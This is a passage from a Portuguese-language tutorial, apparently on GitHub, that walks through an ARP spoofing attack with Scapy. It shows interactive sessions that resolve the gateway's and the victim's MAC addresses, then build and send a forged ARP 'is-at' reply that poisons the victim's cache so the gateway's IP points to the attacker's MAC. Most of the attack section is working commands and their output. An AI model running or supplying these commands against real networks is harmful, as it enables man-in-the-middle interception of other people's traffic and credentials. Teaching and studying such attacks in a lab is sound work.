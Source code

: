 Observe que o arp request faz um broadcast (`dst=ff:ff:ff:ff:ff:ff:ff`), carrega a operação 1 (`who-has`), com o hwdst (MAC address de destino) desconhecido e o `pdst` (IP de destino ) `192.168.1` . Ou seja, quando enviado com o `srp` pergunta à todos qual é o MAC do `192.168.1.1` e aguarda uma resposta.

O gateway recebe essa request e envia uma reply que chega como retorno do `srp` (arpreply1). É possível perceber que o `arpreply1` carrega a operação 2 (is-at) e tem como `hwsrc` (MAC Address de onde saiu) `c4:e9:84:9a:14:16`, que é justamente o MAC do gateway que queríamos.

- Vítima:
```
>>> arprequest2 = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst = "192.168.1.101")
>>> arprequest2.show()
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 28:56:5a:49:ff:67
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 28:56:5a:49:ff:67
     psrc= 192.168.1.103
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.1.101

>>> arpreply2 = srp(arprequest2)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> arpreply2[0][0][1]
(<<Ether  dst=28:56:5a:49:ff:67 src=c4:e9:84:9a:14:16 type=ARP |<ARP
hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=is-at hwsrc=b4:2e:99:f4:b7:df
psrc=192.168.1.1 hwdst=28:56:5a:49:ff:67 pdst=192.168.1.103 |>>)
```
A mesma observação feita para o gateway vale para a vítima.
- 2º passo: “envenenar” o arp cache da vítima na linha do default gateway, preenchendo com o MAC address do atacante
- Solução: fake arp reply
```
>>> arppoison1 = ARP(op = 2, psrc = "192.168.1.1", pdst = "192.168.1.101", hwdst = "b4:2e:99:f4:b7:df")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.1
  hwdst= b4:2e:99:f4:b7:df
  pdst= 192.168.1.101

>>> send(arppoison1)
.
Sent 1 packets.
```
Observe que o que está sendo enviado para a vítima (`192.168.1.101` no MAC `b4:2e:99:f4:b7:df`) é que o IP `192.168.1.1` (default gateway) está (`is-at`) no MAC `28:56:5a:49:ff:67` (`hwsrc`) que na verdade é o MAC do atacante.